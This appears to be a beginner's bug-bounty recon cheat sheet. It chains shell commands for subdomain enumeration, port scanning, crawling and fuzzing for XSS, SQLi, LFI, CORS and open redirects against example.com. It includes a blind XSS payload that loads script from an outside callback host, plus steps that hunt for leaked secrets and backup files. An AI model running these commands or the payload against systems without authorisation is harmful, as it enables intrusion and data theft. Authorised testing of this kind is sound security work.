 Bug Hunting methodology For Beginner
-----------------------------------

mkdir example
cd example

Tool-install-(https://github.com/projectdiscovery/subfinder)

subfinder -d example.com -all  -recursive > subdomain1.txt

cat subdomains.txt | wc -l

Tool-install-(https://github.com/aungsanoo-usa/crt.sh)
cd crt.sh
./crt.sh  

Tool-install -( sudo apt install -y jq )
curl -s "https://crt.sh/?q=%.example.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u > subdomain2.txt

cat subdomain1.txt subdomain2.txt > subdomains.txt

Tool-install-(https://github.com/projectdiscovery/naabu)
naabu -list subdomains.txt -c 50 -nmap-cli 'nmap -sV -sC' -o naabu-full.txt


Tool-install -( sudo apt install httpx-toolkit )
cat subdomains.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

cat subdomains_alive.txt | wc -l 

Tool-install-(https://github.com/projectdiscovery/katana)
katana -u subdomains_alive.txt -d 5 -kf -jc -fx -ef woff,pdf,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt


cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

cat allurls.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt


Tool-install-(https://github.com/Emoe/kxss)(https://github.com/KathanP19/Gxss)

cat allurls.txt | Gxss | kxss | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > xss.txt


Tool-install-(https://github.com/tomnomnom/gf)
cat allurls.txt | gf or | sed 's/=.*/=/' | sort -u > open_redirect.txt

cat allurls.txt | gf lfi | sed 's/=.*/=/' | sort -u > lfi_output.txt


Find vul..for blind sqli xss lfi or..ect...
Tool-install-(https://github.com/coffinxp/loxs)
cd loxs
python3 loxs.py 
chose each payloads and urls files

cat allurls.txt | grep -E "\.js$" >> js.txt

(https://github.com/m4ll0k/SecretFinder)
cd SecretFinder
python3 SecretFinder.py -i js.txt -o secret.txt


Tool-install-(https://github.com/projectdiscovery/nuclei)
cat js.txt | nuclei -t /home/aung/nuclei-templates/http/exposures/ 

echo www.example.com | katana -ps | grep -E "\.js$" | nuclei -t /home/aung/nuclei-templates/http/exposures/ -c 30

Tool-install- (sudo apt install dirsearch)
dirsearch  -u https://www.example.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json

Tool-install-(go install github.com/repejota/qurl/cmd/qurl@develop - go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest- ) move qurl bxss to usr/local/bin

subfinder -d example.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aunglat></script>' -parameters


Tool-install-(https://github.com/PentestPad/subzy)
subzy run --targets subdomains.txt --verify_ssl


Tool-install-(https://github.com/s0md3v/Corsy)
python3 corsy.py -i /home/aung/example/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"

Tool-install-(https://github.com/aungsanoo-usa/priv8-Nuclei)
nuclei -list subdomains_alive.txt -t /home/aung/Priv8-Nuclei/cors.yaml -v

nuclei  -list ~/example/subdomains_alive.txt -tags cves,osint,tech

cat allurls.txt | gf lfi | nuclei -tags lfi


Tool-install-(https://github.com/devanshbatham/OpenRedireX)
cat allurls.txt | gf redirect | openredirex -p /home/aung/openredirex/payloads.txt

cat subdomains_alive.txt | nuclei -t /home/aung/Priv8-Nuclei/cRlf.yaml -v


Tool-install-(go install github.com/bitquark/shortscan/cmd/shortscan@latest)
shortscan https://example.com/ -F
